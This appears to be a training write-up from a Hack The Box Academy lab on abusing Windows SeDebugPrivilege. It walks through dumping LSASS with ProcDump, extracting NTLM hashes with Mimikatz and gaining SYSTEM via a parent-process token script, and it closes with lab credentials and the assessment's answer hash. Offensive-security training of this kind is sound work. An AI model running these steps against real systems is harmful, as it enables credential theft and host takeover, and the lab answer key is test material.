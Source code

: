 # SeDebugPrivilege

SeDebugPrivilege -> allows a process to inspect and adjust the memory of other processes, and [has long been](https://leastprivilege.com/2004/08/19/sedebugprivilege-and-debugger-users/) [a security concern](https://blogs.msdn.microsoft.com/oldnewthing/20080314-00/?p=23113). SeDebugPrivilege allows the token bearer to access any process or thread, regardless of security descriptors.

The Windows credential harvesting tool [Lsadump](https://github.com/gentilkiwi/mimikatz/wiki/module-\~-lsadump) uses this technique to provide processes with read access to the memory space of the Local System Authority (LSASS).&#x20;

Malware also abuses this privilege to perform code injection into otherwise trustworthy processes, because it [permits the creation of new remote threads in a target process](https://support.microsoft.com/en-us/help/131065/how-to-obtain-a-handle-to-any-process-with-sedebugprivilege).

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set      
```

Use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) to dump process memory. A good choice would be LSASS which stores user credentails after user logs on to a system.

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

Successful, load this in Mimikatz using sekurlsa::minidump command after sekurlsa::logonPasswords

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

We can then use the output hash to perform PTH attacks

> If procdump is not possible then we can Create dump file of LSASS process manually and run mimikatz with the output file

### Remote Code Execution as SYSTEM

We can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using  `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it.

{% embed url="https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1" %}
This script has to be transferd to the target system
{% endembed %}

```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

![Script in action](https://academy.hackthebox.com/storage/modules/67/psgetsys\_winlogon.png)

To load and run type

{% code overflow="wrap" %}
```powershell
PS C:\Users\joran\Desktop> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```
{% endcode %}

> We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script

## Assessment

10.129.249.171

RDP to target with username "jordan" and password "HTB\_@cademy\_j0rdan!"

Leverage SeDebugPrivilege rights and obtain the NTLM password hash for the sccm\_svc account

<figure><img src="../../../.gitbook/assets/image (110) (1).png" alt=""><figcaption><p>dump the hash</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (111).png" alt=""><figcaption><p>64f12cddaa88057e06a81b54e73b949b</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>When you have local admin and want to get nt authority system</p></figcaption></figure>
